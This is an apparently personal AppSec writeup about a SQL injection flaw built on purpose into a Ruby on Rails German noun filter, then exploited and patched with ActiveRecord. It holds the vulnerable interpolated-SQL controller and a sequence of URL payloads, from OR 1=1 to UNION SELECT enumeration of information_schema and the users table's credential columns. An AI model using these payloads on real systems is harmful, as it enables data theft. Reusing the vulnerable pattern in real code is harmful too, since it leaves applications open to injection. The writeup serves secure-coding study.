




# SQL Injection Writeup: German Grammar App (Ruby on Rails)

**App Framework:** Ruby on Rails  
**Vulnerability:** SQL Injection in custom controller logic for filtering nouns by gender  
**Status:** Patched  
**Purpose:** Hands-on AppSec practice and demonstration of secure coding principles

---

## 🧠 Overview

While developing a grammar-learning platform using Ruby on Rails, I created a page that displays German nouns and allows users to filter them by grammatical gender (masculine, feminine, or neuter) using a dropdown menu. For the purpose of understanding SQL injection vulnerabilities in a realistic setting, I temporarily implemented the filtering logic using raw SQL with direct string interpolation.

This writeup documents the vulnerable code, the URL-based injection used to exploit it, and the secure fix using ActiveRecord’s query interface.


---

## 🔍 Vulnerable Code (Before)

In this early version, I bypassed ActiveRecord’s protections and manually built a query:

```ruby
# 🚨 Vulnerable filter method (simulating raw SQL injection)
class NounViewerController < ApplicationController
  def index
    @gender_options = %w[masculine feminine neuter]
    @selected_gender = params[:gender]

    @nouns = Noun.find_by_sql(
      "SELECT GENDER, WORD, DEFINITION FROM nouns WHERE gender = '#{@selected_gender}'"
    )
  end
end
```

❗️This uses string interpolation to insert untrusted user input (params[:gender]) directly into a raw SQL query, bypassing ActiveRecord’s sanitization and creating a SQL injection risk.

## Exploitation  
Payload used (URL input):

```sql
/noun_viewer?gender='+OR+1=1--
```

This corresponds to the SQL payload:
```sql
gender = '' OR 1=1--
```
By injecting into the gender parameter via the URL, I was able to bypass the filter and return all nouns, regardless of gender. This confirmed that the input was being directly interpolated into a raw SQL query.


## How I tested it:

Injected the following payload into the `gender` parameter via the URL:

```sql
/noun_viewer?gender='+OR+1=1--
```

## 🔎 Result

After injecting the payload, the application no longer filtered nouns by the selected gender. Instead, it returned **all nouns from the database**, regardless of gender category. This confirmed that the SQL condition was bypassed and that user input was being directly executed as part of the query.


## Screenshot:




## 🧨 Escalation: Enumerating the Database

After confirming the vulnerability through basic SQL injection, I escalated the attack to enumerate the database structure and extract sensitive data — simulating a real-world data breach scenario.

---

### 1. 🔎 Determining the Number of Columns

To craft a valid `UNION SELECT`, I needed to match the number of columns in the original query. I injected:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+NULL,NULL,NULL--
```

Result: The page loaded without error, confirming the query had 3 columns.


### 2. 🧪 Identifying Data Types for UNION Injection

Next, I determined which columns could accept string values (to inject test strings or payloads). I used:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+'test',NULL,NULL--
```

Result: The string "test" appeared on the page — confirming that the first column accepts text. This allowed me to use it to display exfiltrated values.

### 3. 🏷️ Fingerprinting the Database

To identify the database engine, I injected a version function:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+version(),NULL,NULL--
```

Result: The output showed a version string indicating that the backend was PostGres.

### 4. 🗂️ Enumerating Table Names

I queried the information_schema.tables table to enumerate available tables:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+table_name,NULL,NULL+FROM+information_schema.tables+ORDER+BY+1+DESC--
```




Result: The app returned a list of tables, including:

- views

- users

- tables

- ...


### 5. 📦 Enumerating Columns in the users Table

Next, I extracted the column names from the users table to identify useful fields:
```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+column_name,NULL,NULL+FROM+information_schema.columns+WHERE+ table_name='users'+ORDER+BY+1--
```



Result: I discovered the following fields:

- email

- encrypted_password

⚠️ Note: All testing was performed in a local development environment on a self-built app. No real user data was accessed or exposed.


## Summary of Findings

- The application was vulnerable to classic UNION-based SQL injection
- I used controlled payloads to safely enumerate:
  - Column count and types
  - DBMS fingerprint
  - Table and column names
- This vulnerability could be exploited to extract sensitive user data such as usernames and password hashes


## 🛡️ Fixed Code (After)

The fix involved replacing raw SQL with ActiveRecord’s built-in .where() method, which uses parameterized queries. This safely escapes user input and prevents injection:
✅ Secure version using ActiveRecord query interface:
```ruby
class NounViewerController < ApplicationController
  def index
    @gender_options = %w[masculine feminine neuter]
    @selected_gender = params[:gender]
    @nouns = if @selected_gender.present?
              Noun.where(gender: @selected_gender)
             else
               []
             end
  end
end
```

This ensures:

User input is safely escaped

SQL injection attempts are neutralized

## Test Results After Fix




Retested the same payload.

Query failed as expected.

No unexpected records returned.


## Lessons Learned

**Rails ActiveRecord provides excellent protection by default** — bypassing it opens you up to unnecessary risk.

**Raw SQL should only be used with parameter placeholders (?) or sanitized bindings.**

**Demonstrating vulnerabilities safely builds intuition and improves secure coding instincts.**


*This writeup is part of my ongoing security training. Full application source is private, but selected code snippets and security walkthroughs are available here for demonstration purposes.*
